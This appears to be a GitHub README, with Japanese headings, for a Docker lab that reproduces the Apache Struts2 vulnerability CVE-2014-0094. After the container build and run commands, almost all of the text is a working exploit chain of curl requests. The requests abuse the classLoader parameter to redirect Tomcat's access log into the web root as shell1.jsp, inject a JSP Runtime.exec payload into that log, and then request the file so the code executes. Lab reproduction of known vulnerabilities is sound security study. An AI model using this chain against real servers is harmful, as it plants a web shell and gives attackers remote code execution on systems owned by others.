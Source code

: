 CVE-2014-0094
====


### container build
```
docker build -t cvecontainer/2014_0094 .
```
### container run
```
docker run -p 8080:8080 cvecontainer/2014_0094 
```
### アクセスログの出力先をwebapps/ROOTに変更
```
curl http://container:8080/struts2-blank/example/HelloWorld.action?class.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT
```
### アクセスログの拡張子を.jspに変更
```
curl http://container:8080/struts2-blank/example/HelloWorld.action?class.classLoader.resources.context.parent.pipeline.first.prefix=shell
curl http://container:8080/struts2-blank/example/HelloWorld.action?class.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
```
### アクセスログの日付部分(yyyy-mm-dd)を1に変更する。
### ↑の2つのコマンドとあわせて、アクセスログはshell1.jspに吐き出されるように
```
curl http://container:8080/struts2-blank/example/HelloWorld.action?class.classLoader.resources.context.parent.pipeline.first.fileDateFormat=1
```
### アクセスログにJSPコードを埋め込み
```
curl http://container:8080/struts2-blank/example/aaaa.jsp?a=<%Runtime.getRuntime().exec("finder");%>
```
### アクセスログにアクセスすることで、jsp実行
```
curl http://container:8080/shell1.jsp
```

